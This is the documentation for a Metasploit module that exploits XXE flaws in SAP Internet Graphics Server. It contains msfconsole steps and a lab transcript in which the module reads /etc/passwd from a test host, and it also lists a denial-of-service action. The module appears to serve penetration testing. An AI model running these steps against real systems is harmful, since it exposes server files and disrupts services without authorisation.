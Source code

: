 ## Vulnerable Application
This module exploits two vulnerabilities, CVE-2018-2392 and CVE-2018-2393, within version 7.20, 7.20EXT, 7.45, 7.49,
and 7.53 of SAP Internet Graphics Server (IGS). Both of these vulnerabilities occur due a lack of validation on XML
External Entities when XML files are uploaded via the /XMLCHART page. Unauthenticated remote attackers can exploit
this vulnerability to either read files from the server's file system as the XXX user, or conduct a denial of service
attack against the vulnerable SAP IGS server.

### Application Background
The Internet Graphics Service (IGS) provides infrastructure to enable developers to display graphics
in an internet browser with minimal effort. It has been integrated in several different SAP UI technologies
where is provides a say for data from another SAP system or data source to be utilized to generate
dynamic graphical or non-graphical output.

### Install steps
1. Register for an account at https://accounts.sap.com/ui/public/showRegisterForm?spName=profile.people.sap.com&targetUrl=&sourceUrl=
2. Click on the link in the email that will be sent to activate your account.
3. Browse to http://service.sap.com/swdc. Accept the legal reguirements.
4. XXXX ??? At this point I couldn't download any software as none of the download pages are accessible.
   I think you need a paid subscription to access them.

XXX - Need to add setup instruction here....
SAP IGS versions: 7.20, 7.20EXT, 7.45, 7.49, 7.53 are affected by this vulnerability.
Installing and Updating the IGS [instructions][2].
Configuring the IGS [instructions][3].
Administering the IGS [instructions][4].

Once set up and configured, the instances will be vulnerable on the default HTTP port 40080.

## Verification Steps

  1. Start msfconsole
  1. Do: `workspace [WORKSPACE]`
  1. Do: `use auxiliary/admin/sap/sap_igs_xmlchart_xxe`
  1. Do: `set RHOSTS [IP]`
  1. Do: `set FILE [remote file name]`
  1. Do: `set SHOW [true|false]`
  1. Do: `set action READ`
  1. Do: `check`
  1. Do: `run`
  1. Verify that the contents of the file you specified were returned.

## Options

### FILE

File to read from the remote server. Example: `/etc/passwd`

### URN

This is the URL of the XMLCHART page on the SAP IGS server that is vulnerable to XXE.
By default it is set to `/XMLCHART`, however it can be changed if the SAP IGS server
was installed under a different path than the web root. For example if the SAP IGS
server was installed to the `/igs/` path under the web root, then this value would be
set to `/igs/XMLCHART`.

## Actions
```
   Name  Description
   ----  -----------
   READ  Remote file read
   DOS   Denial Of Service
```

## Scenarios

### Vulnerable SAP IGS release: 7.45 running on SUSE Linux Enterprise Server for SAP Applications 12 SP1

```
msf6 > workspace -a SAP_TEST
[*] Added workspace: SAP_TEST
[*] Workspace: SAP_TEST
msf6 > use auxiliary/admin/sap/sap_igs_xmlchart_xxe
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > set RHOSTS 10.10.10.10
RHOSTS => 10.10.10.10
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > set FILE /etc/passwd
FILE => /etc/passwd
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > set action READ
action => READ
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > set Proxies http:127.0.0.1:8080
Proxies => http:127.0.0.1:8080
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > options

Module options (auxiliary/admin/sap/sap_igs_xmlchart_xxe):

   Name     Current Setting      Required  Description
   ----     ---------------      --------  -----------
   FILE     /etc/passwd          yes       File to read from the remote server
   Proxies  http:127.0.0.1:8080  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   10.10.10.10          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    40080                yes       The target port (TCP)
   SHOW     true                 no        Show remote file content
   SSL      false                no        Negotiate SSL/TLS for outgoing connections
   URN      /XMLCHART            no        SAP IGS XMLCHART URN
   VHOST                         no        HTTP server virtual host


Auxiliary action:

   Name  Description
   ----  -----------
   READ  Remote file read


msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > check
[+] 10.10.10.10:40080 - The target is vulnerable. OS info: SUSE Linux Enterprise Server for SAP Applications 12 SP1
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > run
[*] Running module against 10.10.10.10

[+] File: /etc/passwd content from host: 10.10.10.10
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/bin/bash
daemon:x:2:2:Daemon:/sbin:/bin/bash
lp:x:4:7:Printing daemon:/var/spool/lpd:/bin/bash
mail:x:8:12:Mailer daemon:/var/spool/clientmqueue:/bin/false
news:x:9:13:News system:/etc/news:/bin/bash
uucp:x:10:14:Unix-to-Unix CoPy system:/etc/uucp:/bin/bash
games:x:12:100:Games account:/var/games:/bin/bash
man:x:13:62:Manual pages viewer:/var/cache/man:/bin/bash
wwwrun:x:30:8:WWW daemon apache:/var/lib/wwwrun:/bin/false
ftp:x:40:49:FTP account:/srv/ftp:/bin/bash
nobody:x:65534:65533:nobody:/var/lib/nobody:/bin/bash
messagebus:x:499:499:User for D-Bus:/var/run/dbus:/bin/false
sshd:x:498:498:SSH daemon:/var/lib/sshd:/bin/false
polkitd:x:497:496:User for polkitd:/var/lib/polkit:/sbin/nologin
nscd:x:496:495:User for nscd:/run/nscd:/sbin/nologin
rpc:x:495:65534:user for rpcbind:/var/lib/empty:/sbin/nologin
openslp:x:494:2:openslp daemon:/var/lib/empty:/sbin/nologin
uuidd:x:493:492:User for uuidd:/var/run/uuidd:/bin/bash
usbmux:x:492:65534:usbmuxd daemon:/var/lib/usbmuxd:/sbin/nologin
ntp:x:74:491:NTP daemon:/var/lib/ntp:/bin/false
at:x:25:25:Batch jobs daemon:/var/spool/atjobs:/bin/bash
vnc:x:491:490:user for VNC:/var/lib/empty:/sbin/nologin
rtkit:x:490:489:RealtimeKit:/proc:/bin/false
pulse:x:489:488:PulseAudio daemon:/var/lib/pulseaudio:/sbin/nologin
statd:x:488:65534:NFS statd daemon:/var/lib/nfs:/sbin/nologin
ftpsecure:x:487:65534:Secure FTP User:/var/lib/empty:/bin/false
postfix:x:51:51:Postfix Daemon:/var/spool/postfix:/bin/false
scard:x:486:485:Smart Card Reader:/var/run/pcscd:/usr/sbin/nologin
gdm:x:485:483:Gnome Display Manager daemon:/var/lib/gdm:/bin/false
erpadm:x:1001:1001:SAP System Administrator:/home/erpadm:/bin/csh
sapadm:x:1002:1001:SAP System Administrator:/home/sapadm:/bin/false

[+] File: /etc/passwd saved in: /Users/vladimir/.msf4/loot/20200929135102_SAP_TEST_10.10.10.10_sap.igs.xxe_302025.txt
[*] Auxiliary module execution completed
msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > services
Services
========

host         port   proto  name  state  info
----         ----   -----  ----  -----  ----
10.10.10.10  40080  tcp    http  open   SAP Internet Graphics Server (IGS); OS info: SUSE Linux Enterprise Server for SAP Applications 12 SP1

msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > vulns

Vulnerabilities
===============

Timestamp                Host         Name                                    References
---------                ----         ----                                    ----------
2020-09-29 10:51:01 UTC  10.10.10.10  SAP Internet Graphics Server (IGS) XXE  CVE-2018-2392,CVE-2018-2393,URL-https://download.ernw-insight.de/troopers/tr18/slides/TR18_SAP_IGS-The-vulnerable-forgotten-component.pdf

msf6 auxiliary(admin/sap/sap_igs_xmlchart_xxe) > loot

Loot
====

host         service  type         name         content     info         path
----         -------  ----         ----         -------     ----         ----
10.10.10.10           sap.igs.xxe  /etc/passwd  text/plain  SAP IGS XXE  /Users/vladimir/.msf4/loot/20200929135102_SAP_TEST_10.10.10.10_sap.igs.xxe_302025.txt

```

[1]: https://download.ernw-insight.de/troopers/tr18/slides/TR18_SAP_IGS-The-vulnerable-forgotten-component.pdf
[2]: https://help.sap.com/viewer/3348e831f4024f2db0251e9daa08b783/7.5.16/en-US/4e193dbeb5c617e2e10000000a42189b.html
[3]: https://help.sap.com/viewer/3348e831f4024f2db0251e9daa08b783/7.5.16/en-US/4e1939c9b5c617e2e10000000a42189b.html
[4]: https://help.sap.com/viewer/3348e831f4024f2db0251e9daa08b783/7.5.16/en-US/4e193988b5c617e2e10000000a42189b.html
